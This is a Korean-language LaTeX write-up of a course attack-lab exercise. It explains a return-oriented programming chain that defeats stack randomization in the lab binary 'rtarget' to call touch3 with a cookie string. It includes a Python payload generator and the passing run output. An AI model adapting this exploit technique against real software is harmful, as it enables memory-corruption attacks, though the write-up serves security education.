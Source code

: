 \documentclass{scrartcl}
\begin{document}
\subsection{Phase 5}
Phase 3의 풀이를 생각해 보았을 때, 스택에 cookie를 16진수로 적은 문자열을
저장한 다음 이 문자열의 주소를 rdi 레지스터에 넣어야 했다. Phase 3의 경우에는
스택의 주소가 고정되어 있었기 때문에 이것이 쉬웠지만, 여기에서는 스택의 주소가
랜덤화되어 있기 때문에 스택의 주소 역시 가젯을 사용하여 읽어야 한다. 가젯을
찾아 본 결과 \texttt{movq \%rsp, \%rax; retq}, \texttt{addb \$0x37, \%al;
retq}, \texttt{movq \%rax, \%rdi; retq}에 해당하는 가젯을 \texttt{0x401a44},
\texttt{0x401a18}, \texttt{0x4019f8} 주소에서 찾을 수
있었다. 앞서 언급한 가젯들의 주소를 차례대로 스택에 쌓은 다음, \texttt{touch3}
함수의 주소를 쌓은 다음, 31바이트의 패딩 이후에 cookie를 16진수로 나타낸
문자열을 넣었다고 하자. 이때 rsp를 rax에 저장하는 명령어가 실행된 직후의
스택에는 3개의 주소와 31바이트의 padding 뒤에 cookie 문자열이 위치하게 된다. 각
주소는 8바이트이므로 \(8 \times 3 + 31 = 55\)바이트, 즉 rax 레지스터에
\texttt{0x37}바이트를 더한 주소에 문자열이 있으므로, 원하는 문자열이 결과적으로
rdi에 저장되어 공격에 성공하게 된다. 공격을 위한 input string을 만드는 코드는
다음과 같다.
\begin{lstlisting}[language=Python]
import struct

cookie = 0x3E52DFF5

with open("phase5_payload.bin", "wb") as f:
    f.write(b"A" * 0x18)
    f.write(struct.pack("<q", 0x401A44))
    f.write(struct.pack("<q", 0x401A18))
    f.write(struct.pack("<q", 0x4019F8))
    f.write(struct.pack("<q", 0x40194D))
    f.write(b"A" * 31 + f"{cookie:8x}".encode() + b"\x00")
\end{lstlisting}
이 코드를 통해 생성한 \texttt{phase5\_payload.bin} 파일을 입력으로 주어
실행시키면 공격이 성공함을 알 수 있다.
\begin{lstlisting}
$ ./rtarget < phase5_payload.bin
Cookie: 0x3e52dff5
Type string:Touch3!: You called touch3("3e52dff5")
Valid solution for level 3 with target rtarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
\end{lstlisting}
\end{document}
